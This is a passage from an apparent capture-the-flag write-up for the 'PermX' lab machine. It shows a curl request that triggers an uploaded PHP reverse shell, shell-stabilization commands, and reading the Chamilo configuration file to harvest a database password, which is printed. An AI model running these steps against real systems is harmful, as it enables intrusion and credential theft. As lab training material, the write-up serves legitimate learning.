 **Reverse Shell Execution:**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Connection established → www-data shell obtained!
    </p>
</div>

## 🔧 Phase 5 — Shell Stabilization and Enumeration

### Shell Improvement

Stabilizing the shell for better interactivity:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160
```

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-info-circle mr-2 text-cyan-500"></i>
        <strong>Tip:</strong> This technique provides a complete interactive shell with command history and auto-completion.
    </p>
</div>

### Configuration File Enumeration

Web applications often store credentials in their configuration files. We examine the Chamilo configuration file:

```bash
cat /var/www/chamilo/app/config/configuration.php
```

<div class="bg-white dark:bg-dark-navbar p-5 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-3 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Discovered Credentials
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded font-mono text-sm">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_user']</span> = <span class="text-green-600 dark:text-green-400">'chamilo'</span>;<br>
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_password']</span> = <span class="text-green-600 dark:text-green-400">'03F6lY3uXAP2bkW8'</span>;
        </div>
    </div>
</div>
